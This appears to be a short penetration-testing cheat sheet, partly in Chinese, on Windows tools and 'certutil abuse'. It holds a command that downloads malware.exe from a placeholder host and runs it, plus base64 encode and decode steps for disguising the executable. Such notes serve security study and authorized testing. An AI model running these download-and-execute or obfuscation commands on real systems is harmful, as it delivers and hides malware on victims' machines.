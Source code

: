 # Windows Pentest Notes

[工具](#Useful-Tools)

[Certutil](#Certutil-abuse)




## Useful Tools
`metasploit` 和

`powershell` 好工具

`empire` 製作ps腳本, [github在這](https://github.com/EmpireProject/Empire)

## Certutil abuse
### 下載檔案 & 執行
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
### Hash 
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
### 檔案 & base64轉換
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`

